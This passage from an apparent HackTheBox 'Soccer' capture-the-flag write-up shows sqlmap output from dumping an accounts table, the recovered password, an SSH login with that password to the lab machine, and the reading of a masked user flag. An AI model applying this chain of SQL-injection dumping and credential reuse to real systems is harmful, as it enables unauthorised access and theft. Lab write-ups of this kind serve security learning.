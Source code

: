     [18:14:50] [INFO] table 'soccer_db.accounts' dumped to CSV file '/home/in7rud3r/.local/share/sqlmap/output/localhost/dump/soccer_db/accounts.csv'
    [18:14:50] [INFO] fetched data logged to text files under '/home/in7rud3r/.local/share/sqlmap/output/localhost'
    
    [*] ending @ 18:14:50 /2023-01-29/

Some connection error messed up one of the characters, but it's not too difficult to understand the password anyway (_PlayerOftheMatch2022_), and where to use these credentials if not on the **ssh** connection?

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ ssh player@soccer.htb                                                      
    The authenticity of host 'soccer.htb (10.10.11.194)' can't be established.
    ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'soccer.htb' (ED25519) to the list of known hosts.
    player@soccer.htb's password: 
    Permission denied, please try again.
    player@soccer.htb's password: 
    Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Sun Jan 29 23:17:07 UTC 2023
    
      System load:           0.03
      Usage of /:            70.1% of 3.84GB
      Memory usage:          21%
      Swap usage:            0%
      Processes:             229
      Users logged in:       0
      IPv4 address for eth0: 10.10.11.194
      IPv6 address for eth0: dead:beef::250:56ff:feb9:ff96
    
     * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
       just raised the bar for easy, resilient and secure K8s cluster deployment.
    
       https://ubuntu.com/engage/secure-kubernetes-at-the-edge
    
    0 updates can be applied immediately.
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Sun Jan 29 22:52:43 2023 from 10.10.14.81
    player@soccer:~$ pwd
    /home/player
    player@soccer:~$ ls -la
    total 32
    drwxr-xr-x 4 player player 4096 Jan 29 22:55 .
    drwxr-xr-x 3 root   root   4096 Nov 17 09:25 ..
    lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .bash_history -> /dev/null
    -rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 player player 3771 Feb 25  2020 .bashrc
    drwx------ 2 player player 4096 Nov 17 09:00 .cache
    drwxrwxr-x 3 player player 4096 Jan 29 22:55 .local
    -rw-r--r-- 1 player player  807 Feb 25  2020 .profile
    lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .viminfo -> /dev/null
    -rw-r----- 1 root   player   33 Jan 29 22:37 user.txt
    player@soccer:~$ cat user.txt 
    7*********************************a
